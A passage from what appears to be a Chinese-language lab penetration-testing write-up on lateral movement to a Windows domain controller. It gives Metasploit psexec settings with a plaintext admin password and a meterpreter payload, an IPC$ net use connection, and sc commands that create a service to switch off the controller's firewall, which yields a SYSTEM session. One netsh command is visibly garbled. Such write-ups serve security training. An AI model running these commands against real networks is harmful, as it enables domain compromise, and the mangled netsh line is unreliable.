 因为我们已经拿到了域管的帐号那么我们这里就直接使用 pth 的方法，即哈希传递，使用的是 psexec 模块，不过这个模块因为被使用太多导致已经被杀软列入了黑名单，如果这里有杀软存在的情况下 psexec 横向移动是会被拦截的。

设置参数如下所示，这里注意一下`SMBPass`这个地方也能够通过 hash 进行传递，也能够通过明文密码进行传递

```
use exploit/windows/smb/psexec
set rhost 192.168.138.138
set SMBDomain SUN
set SMBUser administrator
set SMBPass dc123.com
set payload windows/meterpreter/bind_tcp
run
```

这里可以看到 exp 已经利用了但是没有 session 反弹回来，这里我猜测是以为防火墙阻止了端口流量的进出，所以这里我们就需要通过 ipc 连接去关闭域控的防火墙

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRJHYuwdjOiaRq8FJVXzFgniaVPOeictgBtLkCUoEjiaHB7pPQtNAzIxVS4g/640?wx_fmt=png)

**ipc 连接关闭域控防火墙**
-----------------

这里的常规方法是使用 netsh 关闭域控防火墙，但是这里需要域控的管理员权限，所以在这里我们就直接使用 ipc 连接域控然后使用计划任务添加规则关闭防火墙

```
netsh advfirewall firewall add rule e:\f.exe" action=allownetsh advfirewall firewall delete rule 
```

将 session 挂在后台并与域控建立 ipc 连接

```
net use \\192.168.138.138\ipc$ dc123.com /user:administrator
```

这里可以看到连接已经建立成功了

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRXuHzJycGrkrFFlwltDhAwEmKic5AfaAsnkCFbJWTaTubzYJuCyxdA4g/640?wx_fmt=png)

利用 sc 创建计划任务立即启动关闭域控的防火墙，这里可以看到防火墙已经被关闭了

```
# 创建服务
sc \\192.168.138.138 create unablefirewall binpath= "netsh advfirewall set allprofiles state off"
# 立即启动服务
sc \\192.168.138.138 start unablefirewall
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvR4O1DwvlKrC1oAzFoP1rzdjNAcCKXVzcqMwgfoXtXciaxph7QGcCsGBg/640?wx_fmt=png)

**psexec 尝试 * 2**
-----------------

这时候我们再使用 psexec 进行横向移动就能够获得 session，至此我们就拿到了域控的权限

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRAOGFA9UkHlLnEyzSQeYSSbSe8pS8VkCGumGtc3CjsUOFSobFz8uEVA/640?wx_fmt=png)

这里看一下我们直接拿到的就是一个 system 权限的 session
